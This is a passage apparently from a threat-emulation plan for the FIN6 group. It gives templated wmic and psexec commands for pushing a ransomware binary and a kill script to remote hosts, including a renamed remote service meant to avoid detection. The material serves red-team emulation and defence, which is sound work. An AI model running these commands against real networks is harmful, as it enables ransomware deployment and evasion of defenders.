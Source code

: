 ##### Ransomware

FIN6 Procedure

```sh
wmic /node:#{Ransomware recipient} /user:#{"domain\username"} /password:#{"password"} process call create "cmd /c c:\windows\temp\sss.exe"
```

#### PsExec ([T1569.002](https://attack.mitre.org/techniques/T1569/002/))

FIN6 has used the -r option to change the default remote service name in order to avoid detection.  The group is believed to have named the remote services "mstdc" or "rtrsd."<sup>[4](https://www.fireeye.com/blog/threat-research/2019/04/pick-six-intercepting-a-fin6-intrusion.html)</sup>  The command below authenticates over SMB, executes a command or binary, and returns the results locally.

##### Kill Script

FIN6 Procedure

```sh
psexec.exe \\#{internal IP} -u #{"domain\username"} -p #{"password"} -d -h -r rtrsd -s -accepteula -nobanner c:\windows\temp\windows.bat or kill.bat
```

##### Ransomware

FIN6 Procedure

```sh
psexec.exe \\#{internal IP} -u #{"domain\username"} -p #{"password"} -d -h -r rtrsd -s -accepteula -nobanner c:\windows\temp\sss.exe
```

---

## Additional Plan Resources

* [Intelligence Summary](/fin6/Intelligence_Summary.md)
* [Operations Flow](/fin6/Operations_Flow.md)
* [Emulation Plan](/fin6/Emulation_Plan/README.md)
  - [Infrastructure](/fin6/Emulation_Plan/Infrastructure.md)
  - [Phase 1](/fin6/Emulation_Plan/Phase1.md)
  - [Phase 2](/fin6/Emulation_Plan/Phase2.md)
  - [YAML](/fin6/Emulation_Plan/yaml)
* [Issues](https://github.com/center-for-threat-informed-defense/adversary_emulation_library/issues)
* [Change Log](https://github.com/center-for-threat-informed-defense/adversary_emulation_library/blob/master/fin6/CHANGE_LOG.md)